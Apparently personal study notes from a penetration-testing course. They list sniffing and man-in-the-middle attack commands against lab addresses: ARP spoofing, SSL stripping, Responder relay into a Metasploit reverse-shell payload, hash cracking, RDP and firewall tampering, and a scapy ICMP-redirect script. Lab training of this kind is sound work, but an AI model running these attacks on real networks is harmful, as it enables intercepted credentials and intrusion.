

# Sniffing & Mitm Attacks

`echo 1 > /proc/sys/net/ipv4/ip_forward`

[ARP](https://tools.ietf.org/html/rfc826)
## Sniffing Tools
#### Dsniff
[Dsniff](https://www.monkey.org/~dugsong/dsniff/)

Beside sniffing plain text the suite also contain following features:

Dsniff can handle:FTP, Telnet, SMTP, HTTP, POP, poppass, NNTP, IMAP, SNMP, LDAP, Rlogin, RIP, OSPF, PPTP MS-CHAP, NFS, VRRP, YP/NIS, SOCKS, X11, CVS, IRC, AIM, ICQ, Napster, PostgreSQL, Meeting Maker, Citrix, ICA, Symantec pcAnywhere and many more.

`dsniff [options]`

#### Wireshark
Some basic Filters: 
- `tcp port http`
- `http.authbasic`

#### Tcpdump

syntax: `tcpdump [options] [filter expression]`

Example, `sudo tcpdump -i eth0`
`sudo tcpdump -i eth0 -xxAXXSs 0 dst [target_ip]`

`sudo tcpdump -i eth0 -vvvASs 0 dst [destination_ip]` for simpler output and v is verbosity.

For windows: [windump](https://www.winpcap.org/windump/)

***
***

## MitM Attacks
`python3 RunFinger.py -i [target_ip]` to see whether SMB sighning is disabled.
`python3 Responder.py -I eth0 --lm`
`python MultiRelay.py -t [target_ip] -u ALL` can give us a shell but not working now.

***
***

## Attacking Tools

#### Ettercap
`sudo ettercap G`

#### Cain&Abel
[cain&abel](https://web.archive.org/web/20190101122212/http:/www.oxid.it/cain.html)

#### Macof
syntax: `macof [-s src] [-d dst] [-e tha] [-x sport] [-y dport] [-i interface] [-n times]`
`echo 1 > /proc/sys/net/ipv4/ip_forward`

#### Arpspoof
`sudo arpspoof -i tap0 -t 172.16.5.15 172.16.5.1`
`sudo arpspoof -i tap0 -t 172.16.5.1 172.16.5.15`
`echo 1 > /proc/sys/net/ipv4/ip_forward`

#### Bettercap
`bettercap -I tap0 --no-spoofing` - discovery mode
`bettercap -I tap0 -T 172.16.5.15` if gateway is identified correctly.
`bettercap -I tap0 -G 172.16.5.1 -T 172.16.5.15` if need to explicitly provide or gateway or other targets.
`bettercap -I tap0 -T 172.16.5.15 -X -P "HTTPAUTH,URL,FTP,POST"`
***
***

## Intercepting SSL traffic

##### Ettercap
To send fake certificate to user:
open `/etc/ettercap/etter.conf` and setuid and gid to 0.
In `redir _command_on/off` section uncomment both lines.

#### Ssl strip

This is used to avoid warning from browser.
[sslstrip](https://github.com/moxie0/sslstrip)

1. `echo 1 > /proc/sys/net/ipv4/ip_forward`
2. `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080`
3. `sslstrip -a -f -l 8080 -w els_salt`
4. Configure ettercap in order to mount an ARP MitM attack between victim and gateway.
5. or `bettercap -G 192.168.102.2 -T 192.168.102.138 --proxy-https`

#### sslstrip+
[sslstrip+](https://github.com/singe/sslstrip2)
[MitMF](https://github.com/byt3bl33d3r/MITMf)

`python mitmf.py -h`

`python mitmf.py -i eth0 --spoof --arp --dns --hsts --gateway 192.168.102.2 --targets 192.168.102.138`
***
***

## Using Cain&Abel

1. **Host Discovery**
Once in RDP, open Cain & Abel and start the Sniffer Component. Now, from the Sniffer tab and Hosts sub-tab, run a MAC Address scan by right clicking the empty table. Let's run the scan leaving the default options:

2. **ARP Poisoning**
From the Sniffer component, let's select the ARP tab. To configure a new ARP Poisoning routing, give focus on the first table and click the "plus" button from the toolbar.
Since we have to hijack the traffic between 172.16.5.15 and its gateway, let's select configure the tool as showed below:

To start the ARP poisoning attack, let's click the "hazard" Start/Stop ARP button. Once the attack is on, the status should change from Idle to Poisoning.

3. **Security Checks**
*FTP Credentials*:
The captured FTP Credentials can be seen by selecting the Password tab within the Sniffer Component and then selecting FTP from the menu.
*HTTP Credentials*:
Similarly, but from the HTTP tab.
*RDP Connection*:
The RDP details are presented in the APR tab, in the APR-RDP left menu option.

In the table, we can find a Filename which contains interesting details about the selected RDP connection. We can inspect its content, by right clicking on the entry and then selecting the View option.

Take a look at this file in order to get an understanding on what kind of information it contains. Once you are done, try to search for the string Key pressed client-side, and then hit the Find All in Current Document button:

[APR-RDP](http://web.archive.org/web/20170208102832/http://www.oxid.it/ca_um/topics/apr-rdp.htm)
Cain & Abel is able to capture the hashes of VNC passwords when you are sniffing packets. You can see it on the Sniffer component, Passwords then, VNC. The tool is not able to decrypt the password in real-time but, it allows you to send the hashes to another component named Cracker, from where you can launch a password attack.

***Dictionary Attacks***
The first attempt to crack the password is performing a Dictionary Attack. To do this, from the VNC-3DES option, in the Cracker component, let's right-click on the VNC password hash and, select the option Dictionary Attack.

As we can see, Cain & Abel already has a default wordlist to use. Before starting the attack, right-click on the file named C:\ProgramFiles\Cain\Wordlists\Wordlist.txt and select Reset all initial file positions, then Start the dictionary attack.

Commonly, Dictionary Attacks are faster than Brute-force attacks, that's why we are starting with this attack. However, as we can see, we were not able to crack the password. This because the VNC password is not present in the default wordlist.

***Brute-force Attack***
Similarly, to perform a Brute-force attack, let's select Brute-force attack from the right-click menu.

From the provided hint, we know that the VNC password is only 5 characters long. So, let's configure the attack accordingly.

Click on start.

4. **RDP Profile**
In order to decode the .RDP files, follow the steps below:

	- From any host on the 172.16.5.0/24 network, launch a RDP connection to 10.10.10.20.

		Visit C:\RDP-Profiles and open one of the files with notepad. You will notice that the password is not available in clear-text

	- We have to decode the RDP Password using Cain & Abel. So, Tools > Remote Desktop Password Decoder and then load the RDP profile to decode:

5. **Password Dump**
Launch Cain & Abel which is already installed on the server 10.10.10.20. From the Cracker select the LM & NTLM Hashes option.

	Then, right-click in the empty space and select Add to List option. Select Import Hashes from Local System and go ahead.
	

From the list, select the usernames dba and administrator and then right-click to select: Brute-Force Attack > NTLM Hashes.

Configuring the attack accordingly to the following screenshot, will allows us to crack both user accounts.

6. **Bypassing Firewall**
The VNC software has a server component which stores the encrypted password in the Windows registry. Cain & Abel has a password decoder feature for VNC which can decode the encrypted password into clear-text. Steps to do that are listed below:

	- Open Cain & Abel, go to the Network component, right click the Quick List icon and select Add to Quick List. Give our target IP in input: 172.16.5.10

	- Right-click on the new icon and click Connect As. Then, provide the credentials  aline:soccer

	- Visit the registry: HKEY_CURRENT_USER\Software\ORL\WinVNC3 and copy the Password key value: 65b1b6e7a571dbc5

From the Tools menu, select VNC Password Decoder and insert the password value:

***Bypassing Windows Firewall***
- Open Cain & Abel, go to the Network component, right click the Quick List icon and select Add to Quick List. Give our target IP in input: 172.16.5.10

- Right-click on the new icon and click Connect As. Then, provide the credentials cracked aline:soccer

- Right-click the Services options and select Install Abel:

Double click the computer icon (172.16.5.10) in order to refresh the view and Abel should appear. Let's select the Console option. Here we have a shell on our target machine:

Running `netstat -an |findstr :3389` we can see that the port 3389 (RDP Port) is not enabled yet

`netsh firewall show config`

- Let's enable Remote Desktop by running the following command: 
`reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- Let's check again the status of the port 3389:
`netstat -an |findstr :3389`
`TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING`
- With the RDP enabled, we need to enable on the Windows Firewall as follow:
`netsh firewall add portopening TCP 3389 "Remote Desktop"`
- From any host on the 172.16.5.0/24 network, try to connect to the host 172.16.5.10 via RDP, and at this time it should work.
***
***

## NBT-NS Poisoning and Exploitation with Responder

`./Responder.py -I tap0 --lm`
`./MultiRelay.py -t 172.16.23.100 -u ALL`
`msfconsole`
`msf > use exploit/multi/script/web_delivery`
>>`msf exploit(multi/script/web_delivery) > set SRVHOST <tap0 ip>`
`msf exploit(multi/script/web_delivery) > set target 2`
`msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp`
`msf exploit(multi/script/web_delivery) > set LHOST <tap0 ip>`
`msf exploit(multi/script/web_delivery) > set LPORT 4444`
`msf exploit(multi/script/web_delivery) > set ExitOnSession false`
`msf exploit(multi/script/web_delivery) > exploit -j`

We then copy and paste our PowerShell one-liner to the compromised host via the MultiRelay shell, and hit enter.
We obtain a meterpreter shell from the first compromised target as SYSTEM.
`use auxiliary/scanner/smb/smb_ms17_010` - Important

***
***

## ICMP redirect attack

`echo 1 > /proc/sys/net/ipv4/ip_forward`
`iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE`

`scapy`
>>> `originalRouterIP='10.100.13.1'`
>>> `attackerIP='<Your VPN IP Address>'`
>>> `victimIP='10.100.13.126'`
>>> `serverIP='10.23.56.100'`
>>> `ip=IP()`
>>> `ip.src=originalRouterIP`
>>> `ip.dst=victimIP`
>>> `icmpRedirect=ICMP()`
>>> `icmpRedirect.type=5`
>>> `icmpRedirect.code=1`
>>> `icmpRedirect.gw=attackerIP`
>>> `redirPayloadIP=IP()`
>>> `redirPayloadIP.src=victimIP`
>>> `redirPayloadIP.dst=serverIP`
>>> `fakeOriginalTCPSYN=TCP()`
>>> `fakeOriginalTCPSYN.flags="S"`
>>> `fakeOriginalTCPSYN.dport=80`
>>> `fakeOriginalTCPSYN.seq=444444444`
>>> `fakeOriginalTCPSYN.sport=55555`

>>> `while True:`
...  `send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)`
... `Press <enter>`

***
***